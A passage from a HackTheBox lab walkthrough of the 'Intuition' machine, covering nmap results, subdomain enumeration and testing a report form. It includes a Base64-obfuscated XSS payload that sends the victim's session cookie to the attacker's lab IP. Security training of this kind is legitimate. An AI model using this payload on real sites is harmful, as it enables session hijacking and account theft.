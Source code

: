 # HackTheBox - Intuition

We start with our nmap scan which reveals a subdomain which we add to our `/etc/hosts` and run a subdomain scan against, to search for any hits.

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-13 15:09 EDT
Nmap scan report for 10.10.11.15
Host is up (0.036s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 b3:a8:f7:5d:60:e8:66:16:ca:92:f6:76:ba:b8:33:c2 (ECDSA)
|_  256 07:ef:11:a6:a0:7d:2b:4d:e8:68:79:1a:7b:a7:a9:cd (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://comprezzor.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.31 seconds
```

Our wfuzz scan reveals 3 subdomains which we add to our `/etc/hosts` and then begin enumerating.

<figure><img src=".gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

Working from the "report" domain we find that we can report an issue, which takes us to the "auth" subdomain which requires us to login.

<figure><img src=".gitbook/assets/qm9A9rvk2H.png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/bg6DWAuwH4.png" alt=""><figcaption></figcaption></figure>

We simply trust the process and create an account which then allows us to submit a report, which is simply a title and text box.

<figure><img src=".gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

We try a simple HTML code injection vulnerability into both text boxes, which if successful, would attempt to retrieve an img from our IP, which we'd be hosting a webserver on. Unfortunately, there is no indication that this has worked with a standard message being displayed.&#x20;

<figure><img src=".gitbook/assets/image (123).png" alt=""><figcaption></figcaption></figure>

Curious to see whether we could use XSS here, we think back [#user](hackthebox-headless.md#user "mention") for the HackTheBox machine, Headless. We try the same payload in each of these fields but to no avail. Let's switch it up a bit and try our good friend, Base64!

```
<img src=a onerror='eval(atob("ZmV0Y2goJ2h0dHA6Ly8xMC4xMC4xNC4xOTUvP2Nvb2tpZT0nK2RvY3VtZW50LmNvb2tpZSk="));' />
```

This payload will attempt to load an image from "a", which will fail. On an error, it will then evaluate (run) the code that follows, which starts with "atob" decodes Base64 string, where our Base64 string is set to make a web request to our web server with the current cookie value. If we're going to trigger an XSS vulnerability, this is a good alternative to our previous payload.
